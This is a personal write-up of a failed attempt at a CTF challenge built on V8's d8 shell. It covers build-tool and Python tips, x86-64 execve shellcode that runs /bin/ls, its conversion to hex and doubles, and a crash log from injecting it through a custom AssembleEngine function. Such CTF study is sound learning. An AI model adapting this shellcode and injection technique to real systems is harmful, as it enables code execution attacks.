

# Lesson
- `d8`  
- `Ninja`  
    - https://en.wikipedia.org/wiki/Ninja_(build_system)
- `GN`  
    - https://gn.googlesource.com/gn/  
    - https://zenn.dev/junkawa/articles/ninja-gn-overview  
- ctf tips  
    - read provided files carefully  
- python  
  - list -> one value  
    use `join`  
    ```py
    array = ['a', 'b', 'c']

    ','.join(array)
    # 'a,b,c'
    ```
  - bytes -> double  
    use `struct`  
    https://docs.python.org/3/library/struct.html  
    point: specify the endianness  
      ```py
      a = b"\x90\x48\x51"
      # print(struct.unpack("<d", a))
      # error
      # struct.error: unpack requires a buffer of 8 bytes

      a = b"\x90\x48\x51\x90\x90\x90\x90\x90"
      print(struct.unpack("<d", a))
      # (-6.828527028349014e-229,)
      print(struct.unpack("<d", a)[0])
      # -6.828527028349014e-229
      ```
- x86 assembly language  
  - `Intel` syntax and `AT&T` syntax  
    https://en.wikipedia.org/wiki/X86_assembly_language
    ```zsh
    objdump -M intel -d <binary>
    ```
    ```zsh
    objdump -M att -d <binary>
    ```
- `shellcode` handling  
  - `objdump` vs `xxd` vs `hexdump`  
    "xxd" and "hexdump" are similar.
    - `objdump`
      ```zsh
      $ objdump -M intel -d test
      test:     file format elf64-x86-64


      Disassembly of section .text:

      0000000000401000 <.text>:
        401000:       48 31 d2                xor    rdx,rdx
        401003:       48 bb 2f 2f 62 69 6e    movabs rbx,0x736c2f6e69622f2f
        40100a:       2f 6c 73
        40100d:       48 c1 eb 08             shr    rbx,0x8
        401011:       53                      push   rbx
        401012:       48 89 e7                mov    rdi,rsp
        401015:       50                      push   rax
        401016:       57                      push   rdi
        401017:       48 89 e6                mov    rsi,rsp
        40101a:       b0 3b                   mov    al,0x3b
        40101c:       0f 05                   syscall
      ```
      ```zsh
      $ objdump -M att -d test
      test:     file format elf64-x86-64


      Disassembly of section .text:

      0000000000401000 <.text>:
        401000:       48 31 d2                xor    %rdx,%rdx
        401003:       48 bb 2f 2f 62 69 6e    movabs $0x736c2f6e69622f2f,%rbx
        40100a:       2f 6c 73
        40100d:       48 c1 eb 08             shr    $0x8,%rbx
        401011:       53                      push   %rbx
        401012:       48 89 e7                mov    %rsp,%rdi
        401015:       50                      push   %rax
        401016:       57                      push   %rdi
        401017:       48 89 e6                mov    %rsp,%rsi
        40101a:       b0 3b                   mov    $0x3b,%al
        40101c:       0f 05                   syscall
      ```

    - `xxd`
      ```zsh
      $ xxd test
      00000000: 7f45 4c46 0201 0100 0000 0000 0000 0000  .ELF............
      00000010: 0200 3e00 0100 0000 0010 4000 0000 0000  ..>.......@.....
      00000020: 4000 0000 0000 0000 3010 0000 0000 0000  @.......0.......
      00000030: 0000 0000 4000 3800 0200 4000 0300 0200  ....@.8...@.....
      00000040: 0100 0000 0400 0000 0000 0000 0000 0000  ................
      00000050: 0000 4000 0000 0000 0000 4000 0000 0000  ..@.......@.....
      00000060: b000 0000 0000 0000 b000 0000 0000 0000  ................
      00000070: 0010 0000 0000 0000 0100 0000 0500 0000  ................
      00000080: 0010 0000 0000 0000 0010 4000 0000 0000  ..........@.....
      00000090: 0010 4000 0000 0000 1e00 0000 0000 0000  ..@.............
      000000a0: 1e00 0000 0000 0000 0010 0000 0000 0000  ................
      000000b0: 0000 0000 0000 0000 0000 0000 0000 0000  ................
      ...
      ...
      ...
      00000fe0: 0000 0000 0000 0000 0000 0000 0000 0000  ................
      00000ff0: 0000 0000 0000 0000 0000 0000 0000 0000  ................
      00001000: 4831 d248 bb2f 2f62 696e 2f6c 7348 c1eb  H1.H.//bin/lsH..
      00001010: 0853 4889 e750 5748 89e6 b03b 0f05 002e  .SH..PWH...;....
      00001020: 7368 7374 7274 6162 002e 7465 7874 0000  shstrtab..text..
      00001030: 0000 0000 0000 0000 0000 0000 0000 0000  ................
      00001040: 0000 0000 0000 0000 0000 0000 0000 0000  ................
      00001050: 0000 0000 0000 0000 0000 0000 0000 0000  ................
      00001060: 0000 0000 0000 0000 0000 0000 0000 0000  ................
      00001070: 0b00 0000 0100 0000 0600 0000 0000 0000  ................
      00001080: 0010 4000 0000 0000 0010 0000 0000 0000  ..@.............
      00001090: 1e00 0000 0000 0000 0000 0000 0000 0000  ................
      000010a0: 1000 0000 0000 0000 0000 0000 0000 0000  ................
      000010b0: 0100 0000 0300 0000 0000 0000 0000 0000  ................
      000010c0: 0000 0000 0000 0000 1e10 0000 0000 0000  ................
      000010d0: 1100 0000 0000 0000 0000 0000 0000 0000  ................
      000010e0: 0100 0000 0000 0000 0000 0000 0000 0000  ................
      ```

    - `hexdump`
      ```zsh
      $ hexdump test
      0000000 457f 464c 0102 0001 0000 0000 0000 0000
      0000010 0002 003e 0001 0000 1000 0040 0000 0000
      0000020 0040 0000 0000 0000 1030 0000 0000 0000
      0000030 0000 0000 0040 0038 0002 0040 0003 0002
      0000040 0001 0000 0004 0000 0000 0000 0000 0000
      0000050 0000 0040 0000 0000 0000 0040 0000 0000
      0000060 00b0 0000 0000 0000 00b0 0000 0000 0000
      0000070 1000 0000 0000 0000 0001 0000 0005 0000
      0000080 1000 0000 0000 0000 1000 0040 0000 0000
      0000090 1000 0040 0000 0000 001e 0000 0000 0000
      00000a0 001e 0000 0000 0000 1000 0000 0000 0000
      00000b0 0000 0000 0000 0000 0000 0000 0000 0000
      *
      0001000 3148 48d2 2fbb 622f 6e69 6c2f 4873 ebc1
      0001010 5308 8948 50e7 4857 e689 3bb0 050f 2e00
      0001020 6873 7473 7472 6261 2e00 6574 7478 0000
      0001030 0000 0000 0000 0000 0000 0000 0000 0000
      *
      0001070 000b 0000 0001 0000 0006 0000 0000 0000
      0001080 1000 0040 0000 0000 1000 0000 0000 0000
      0001090 001e 0000 0000 0000 0000 0000 0000 0000
      00010a0 0010 0000 0000 0000 0000 0000 0000 0000
      00010b0 0001 0000 0003 0000 0000 0000 0000 0000
      00010c0 0000 0000 0000 0000 101e 0000 0000 0000
      00010d0 0011 0000 0000 0000 0000 0000 0000 0000
      00010e0 0001 0000 0000 0000 0000 0000 0000 0000
      00010f0
      ```

  - `pwntools` for `shellcode`  
    - https://docs.pwntools.com/en/stable/asm.html  
    - https://docs.pwntools.com/en/stable/context.html#module-pwnlib.context  

  - check Assembler Language -> hex values  
    - case: you want to debug with gdb  
    write assembly source, compile it and dump it.
      ```zsh
      $ nasm -f elf64 test.asm -o test.o
      $ ld -m elf_x86_64 -s -o test test.o
      $ ./test
      $ objdump -M intel -d test
      ```
    - case: no need to debug  
      use `pwntools`  
      ```py
      from pwn import *

      context.os = 'linux'
      context.arch = 'amd64'

      shellcode = """
          xor    rdx, rdx
          movabs rbx, 0x736c2f6e69622f2f
          shr    rbx, 0x8
          push   rbx
          mov    rdi, rsp
          push   rax
          push   rdi
          mov    rsi, rsp
          mov    al, 0x3b
          syscall
      """

      print(asm(shellcode))
      # b'H1\xd2H\xbb//bin/lsH\xc1\xeb\x08SH\x89\xe7PWH\x89\xe6\xb0;\x0f\x05'
      print(asm(shellcode).hex())
      # 4831d248bb2f2f62696e2f6c7348c1eb08534889e750574889e6b03b0f05
      ```
  - check hex values -> Assembler Language  
    1. get hex values  
        ```
        e.g. 4831d248bb2f2f62696e2f6c7348c1eb08534889e750574889e6b03b0f05
        ```
    2. create "\xAA" format  
    [CyberChef](https://gchq.github.io/CyberChef/#recipe=Find_/_Replace(%7B'option':'Regex','string':'(.%7B2%7D)'%7D,'%5C%5Cx$1',true,false,true,false)&input=NDgzMWQyNDhiYjJmMmY2MjY5NmUyZjZjNzM0OGMxZWIwODUzNDg4OWU3NTA1NzQ4ODllNmIwM2IwZjA1)  
    3. use `pwntools`  
        ```py
        from pwn import *

        context.os = 'linux'
        context.arch = 'amd64'

        shellcode = b"\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x6c\x73\x48\xc1\xeb\x08\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05"

        print(disasm(shellcode))
        #  0:   48 31 d2                xor    rdx, rdx
        #  3:   48 bb 2f 2f 62 69 6e 2f 6c 73   movabs rbx, 0x736c2f6e69622f2f
        #  d:   48 c1 eb 08             shr    rbx, 0x8
        # 11:   53                      push   rbx
        # 12:   48 89 e7                mov    rdi, rsp
        # 15:   50                      push   rax
        # 16:   57                      push   rdi
        # 17:   48 89 e6                mov    rsi, rsp
        # 1a:   b0 3b                   mov    al, 0x3b
        # 1c:   0f 05                   syscall
        ```


# Memo
1. check  
```zsh
$ file d8
d8: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[xxHash]=ab5850770cda055d, with debug_info, not stripped
$
$ checksec --file=./d8 --output=json | jq .
{
  "./d8": {
    "relro": "full",
    "canary": "yes",
    "nx": "yes",
    "pie": "yes",
    "rpath": "no",
    "runpath": "no",
    "symbols": "yes",
    "fortify_source": "no",
    "fortified": "0",
    "fortify-able": "28"
  }
}
```
2. investigate with trial-and-error  
```zsh
d8> AssembleEngine(1)
Done
undefined
d8> AssembleEngine([1,2])
Memory Dump. Watch your endianness!!:
0: float 1.000000 hex 3ff0000000000000
1: float 2.000000 hex 4000000000000000
Starting your engine!!
Received signal 11 SEGV_MAPERR 000000000017

==== C stack trace ===============================

 [0x55cc89618cd7]
 [0x7f94e63e9520]
 [0x7f94e66ef000]
[end of stack trace]
zsh: segmentation fault  ./d8
```
```zsh
$ ./d8
V8 version 9.1.0 (candidate)
d8> AssembleEngine([1,1.1,1.2,2,3])
Memory Dump. Watch your endianness!!:
0: float 1.000000 hex 3ff0000000000000
1: float 1.100000 hex 3ff199999999999a
2: float 1.200000 hex 3ff3333333333333
3: float 2.000000 hex 4000000000000000
4: float 3.000000 hex 4008000000000000
Starting your engine!!
Received signal 11 SEGV_MAPERR 000000000017

==== C stack trace ===============================

 [0x55ebc6b27cd7]
 [0x7f2ec3d9a520]
 [0x7f2ec40db000]
[end of stack trace]
zsh: segmentation fault  ./d8
```
```zsh
$ ./d8
V8 version 9.1.0 (candidate)
d8> AssembleEngine([1.875])
Memory Dump. Watch your endianness!!:
0: float 1.875000 hex 3ffe000000000000
Starting your engine!!
Received signal 11 SEGV_MAPERR 000000000017

==== C stack trace ===============================

 [0x55d9be1d9cd7]
 [0x7f3e0c8e5520]
 [0x7f3e0cc26000]
[end of stack trace]
zsh: segmentation fault  ./d8
```



3. create my own shellcode
```zsh
$ nasm -f elf64 test.asm -o test.o
$ ld -m elf_x86_64 -s -o test test.o
$ ./test
# /bin/ls
$ objdump -M intel -d test

test:     file format elf64-x86-64


Disassembly of section .text:

0000000000401000 <.text>:
  401000:       48 31 d2                xor    rdx,rdx
  401003:       48 bb 2f 2f 62 69 6e    movabs rbx,0x736c2f6e69622f2f
  40100a:       2f 6c 73 
  40100d:       48 c1 eb 08             shr    rbx,0x8
  401011:       53                      push   rbx
  401012:       48 89 e7                mov    rdi,rsp
  401015:       50                      push   rax
  401016:       57                      push   rdi
  401017:       48 89 e6                mov    rsi,rsp
  40101a:       b0 3b                   mov    al,0x3b
  40101c:       0f 05                   syscall
```

4. exploit  
This shellcode can work in my local environment, but it does not work with "d8".  
I could not this issue, so I give up this question.
  - my shellcode
    ```zsh
    48 31 d2                xor    rdx,rdx
    48 bb 2f 2f 62 69 6e    movabs rbx,0x736c2f6e69622f2f
    2f 6c 73 
    48 c1 eb 08             shr    rbx,0x8
    53                      push   rbx
    48 89 e7                mov    rdi,rsp
    50                      push   rax
    57                      push   rdi
    48 89 e6                mov    rsi,rsp
    b0 3b                   mov    al,0x3b
    0f 05                   syscall
    ```
    ```
    4831d248bb2f2f62696e2f6c7348c1eb08534889e750574889e6b03b0f05
    ```
  - to double array
    ```
    ['8.979530034198231e+164', '-1.1363873468472871e+211', '3.173613953535576e+40', '-6.603883595464582e-229']
    ```
  - input format
    ```
    AssembleEngine([8.979530034198231e+164,-1.1363873468472871e+211,3.173613953535576e+40,-6.603883595464582e-229])
    ```
  - run on "d8"
    ```zsh
    $ ./d8
    V8 version 9.1.0 (candidate)
    d8> AssembleEngine([8.979530034198231e+164,-1.1363873468472871e+211,3.173613953535576e+40,-6.603883595464582e-229])
    Memory Dump. Watch your endianness!!:
    0: float 897953003419823110478592745121932943912610118187707351998574078397257022295765519931318261436496516551415771234683353118577048539812981062774217090111070299104477184.000000 hex 622f2fbb48d23148
    1: float -11363873468472871177400862506728423210230440559032608712444858027058826209699427986536457941483815139159372435802158510297000612122423473838699779659668313450322390137529214872345143930842687526441610270514085888.000000 hex ebc148736c2f6e69
    2: float 31736139535355759212798880102605165428736.000000 hex 485750e789485308
    3: float -0.000000 hex 9090050f3bb0e689
    Starting your engine!!
    Received signal 11 SEGV_MAPERR fffffffffffffff2

    ==== C stack trace ===============================

    [0x55f27eaa1cd7]
    [0x7f8c37f2a520]
    [0x7f8c3826b020]
    [end of stack trace]
    zsh: segmentation fault  ./d8
    ```
    
# Ref  
- https://satoooon1024.hatenablog.com/entry/2021/03/31/093021#Kit-Engine-375-points  
- https://ret2home.github.io/blog/CTF/picoctf-2021/pwn/kitengine/